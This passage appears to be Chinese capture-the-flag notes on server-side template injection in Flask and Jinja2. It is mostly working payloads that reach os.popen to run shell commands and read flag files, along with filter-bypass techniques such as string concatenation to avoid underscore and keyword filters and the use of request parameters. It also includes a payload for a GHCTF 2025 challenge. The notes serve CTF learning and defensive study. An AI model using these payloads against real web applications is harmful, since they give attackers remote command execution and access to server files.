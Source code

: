 ```
{{"".__class__.__base__.__subclasses__()[117].__init__.__globals__['builtins']['eval']("__import__.('os').popen('ls').read()")}}
```

```
{{url_for.__globals__.os.popen('ls').read()}}
```

```
{%print(lipsum|attr("_"+"_glo"+"bals_"+"_")|attr("_"+"_getitem_"+"_")("os")|attr("popen")("cat ../f*")|attr("read")())%}
```

- request方法绕过：

request在flask中可以访问基于 HTTP 请求传递的所有信息，这里的request并非python的函数，而是在flask内部的函数。

    request.args.key  #获取get传入的key的值
    
    request.form.key  #获取post传入参数(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
    
    reguest.values.key  #获取所有参数，如果get和post有同一个参数，post的参数会覆盖get
    
    request.cookies.key  #获取cookies传入参数
    
    request.headers.key  #获取请求头请求参数
    
    request.data  #获取post传入参数(Content-Type:a/b)
    
    request.json  #获取post传入json参数 (Content-Type: application/json)

payload参考https://www.nssctf.cn/note/set/14423

报错的HTML结构框架：
 Flask：蓝色调试页，显示完整堆栈
 Django：黄色调试页，显示详细设置
 Bottle：仅基础HTML+少量CSS

##### [GHCTF 2025]Message in a Bottle

这是个非常好的题，是python意义上的XSS。

```
{% set po=dict(po=a,p=b)|join%}
{% set a=(()|select|string|list)|attr(po)(24)%}
{%print(lipsum|attr(a+a+'glo'+'bals'+a+a)|attr(a+a+'ge'+'titem'+a+a)('o'+'s')|attr('po'+'pen')('tac /f*')|attr('read')())%}
```

用于下划线绕过